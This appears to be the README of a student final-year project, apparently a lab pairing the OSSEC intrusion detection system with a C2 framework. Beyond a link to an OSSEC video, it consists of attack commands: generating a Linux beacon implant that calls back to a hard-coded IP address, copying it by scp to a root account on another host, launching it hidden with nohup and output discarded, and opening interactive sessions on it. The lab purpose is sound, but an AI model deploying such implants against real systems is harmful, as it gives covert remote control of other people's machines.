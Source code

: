 # final-year-project

OSSEC Reference:
https://www.youtube.com/watch?v=7c8xowHz0Ko

Implant generation cmds:
 
``` generate beacon --http 165.22.218.140 --arch amd64 --os linux --save /root ```

```scp ./PREPARED_APPLIANCE root@128.199.20.191:/home```

Implant Execution cmd:

```nohup ./EFFICIENT_TAXI > /dev/null 2>&1 &```

```beacons```

```use {beacon id}```

```interactive```

```sessions```

 ```use {session id}```
